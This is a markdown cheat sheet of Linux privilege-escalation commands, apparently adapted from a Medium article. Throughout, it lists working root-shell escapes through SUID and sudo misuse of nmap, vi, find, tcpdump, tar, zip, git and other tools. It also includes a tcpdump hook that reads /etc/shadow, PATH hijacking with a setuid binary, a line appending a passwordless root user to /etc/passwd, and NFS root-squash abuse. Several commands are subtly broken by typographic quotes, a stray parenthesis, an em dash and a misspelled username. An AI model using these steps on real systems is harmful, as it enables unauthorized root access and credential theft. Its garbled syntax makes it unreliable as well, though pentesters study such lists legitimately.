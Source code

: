 ### Original artical - https://jieliau.medium.com/privilege-escalation-on-linux-platform-8b3fbd0b1dd4

# Linux Pric Esc Commands

## 00 Useful tools

	- LinEnum
	https://github.com/rebootuser/LinEnum
	
	- linuxprivchecker
	https://github.com/sleventyeleven/linuxprivchecker
	
	- unix-privesc-check
	https://github.com/pentestmonkey/unix-privesc-check


## 01 Kernel Exploit

	$ uname -a
	$ cat /etc/issue
	$ cat /etc/*-release
	$ cat /etc/lsb-release
	$ cat /etc/redhat-release
	$ lsb_release

## 02 Exploit the service running as root

For Samba 2.2.x, 
 - https://www.exploit-db.com/exploits/10

For MySQL, if there is mysql daemon running as root, you could utilize UDF (User Define Function) to get root shell.
 - https://www.exploit-db.com/exploits/1518

## 03 Find anything with SUID / SGID permission

### Finding interesting file

	$ find / -user root -perm -4000 2>/dev/null
	$ find / -perm -2000 2>/dev/null


### nmap 

	$ nmap --interactive
	nmap> !sh

	Another way below (if nmap doesn’t have interactive mode):
	$ echo “os.execute(‘/bin/sh’)” > /tmp/shell.nse)
	$ sudo nmap --script=/tmp/shell.nse)

### vi

	$ vi
	:!sh

### find
	$ find / home -exec sh -i \;

### python

	$ python -c ‘import pty;pty.spawn(“/bin/sh”)’

### strace

	$ strace -o /dev/null /bin/sh


### tcpdump

	$ echo $’id\ncat /etc/shadow’ > /tmp/.shell
	$ chmod +x /tmp/.shell
	$ tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.shell -Z root


If you find out one script file with SUID permission, owned by root and executable by others, and this script file will execute some commands. You can play the trick to get root shell. For example here, this script will execute scp command transferring some backup file to somewhere. Add . into $PATH and compile setuid.c, rename the compiled binary to scp and put it under current folder. And then run that script.

	$ export PATH=.:$PATH
	$ cat setuid.c
		#include <stdio.h>
		int main(void)
		{
		setuid(0); setgid(0); seteuid(0); setegid(0); execvp(“/bin/sh”, NULL, NULL);
		}
	$ mv setuid scp
	$ ./script.sh

### abuse sudo

Use the following command to show which command have allowed to the current user.

	$ sudo -l

And if you find the following command with NOPASSWD and root set in the output. You win again !!!

### zip

    $ sudo zip /tmp/test.zip /tmp/test -T --unzip-command=”sh -c /bin/bash”

### tar

    $ sudo tar cf /dev/null testfile --checkpoint=1 — checkpointaction=exec=/bin/bash

### strace

    $ sudo strace -o/dev/null /bin/bash

### tcpdump

    $ echo $’id\ncat /etc/shadow’ > /tmp/.shell
    $ chmod +x /tmp/.shell
    $ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.shell -Z root

### nmap

    $ echo “os.execute(‘/bin/sh’)” > /tmp/shell.nse
    $ sudo nmap --script=/tmp/shell.nse

    Another way below:
    ($ sudo nmap --interactive
    nmap> !sh)

### scp

    $ sudo scp -S /path/to/your/script x y

### except

    $ sudo except spawn sh then sh

### nano

    $ sudo nano -S /bin/bash

### git

    $ sudo git help status
    : !/bin/bash

### gdb/ftp

    $ sudo ftp
    : !/bin/sh



## 05 Find any writable file owned by root

Please use the following command to find any writable files owned by root. You might be able to see the script file and add the needed command for your privilege escalation.

    $ find / -perm -002 -user root -type f -not-path “/proc/*” 2>/dev/null

## 06 Check /etc/passwd if writable

If you see /etc/passwd is writable, the only thing you should do is to echo one line to /etc/passed

    $ echo “tseruser::0:0:pawned:/root:/bin/bash” >> /etc/passwd
    $ su testuser
	
## 07 NFS root squashing

According Wikipedia, root squash is a special mapping of the remote superuser (root) identity when using identity authentication (local user is the same as remote user). Under root squash, a client’s uid 0 (root) is mapped to 65534 (nobody). It is primarily a feature of NFS but may be available on other systems as well.

In the scenario which you use showmount to find your target has NFS service up and running and you’re already in via anyway and you find you have the permission to edit /etc/exports as well, for example, you can use sudoedit to edit /etc/exports. You can put no_root_squash to disable root squash. Please see below:

    /home/userfolder *(rw,no_root_squash)

And then you can mount this folder with local root and put the copy of /bin/bash into it. After this, try use the exploited normal account to execute this /bin/bash. You will get the heaven !!!

